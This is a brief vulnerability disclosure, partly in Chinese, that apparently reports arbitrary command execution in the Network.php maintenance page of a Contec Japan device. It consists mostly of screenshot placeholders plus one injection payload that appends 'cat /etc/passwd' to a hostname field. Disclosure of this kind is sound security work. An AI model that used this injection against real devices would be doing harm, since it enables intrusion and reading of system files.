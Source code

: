 

漏洞厂商：

name： Contec Japan Co., Ltd. 

Affected Entity Vendor Name： Contec Japan Co., Ltd.

## security researcher

name1: peishilong

Please contact email: <peisylon@foxmail.com>

我不知道以下产品是贵公司哪一个系列? 也是存在任意命令执行的

### **Maintenance menu**

![](./images/media/image1.png){width="5.7625in"
height="2.203472222222222in"}

![](./images/media/image2.png){width="5.760416666666667in"
height="2.0388888888888888in"}

漏洞点：Network.php

![](./images/media/image3.png){width="5.761805555555555in"
height="4.4118055555555555in"}

hostname=8.8.8.8;cat /etc/passwd&ping=+ping+

![](./images/media/image4.png){width="5.760416666666667in"
height="2.675in"}

![](./images/media/image5.png){width="5.758333333333334in"
height="3.0805555555555557in"}

![](./images/media/image6.png){width="5.761111111111111in"
height="2.94375in"}
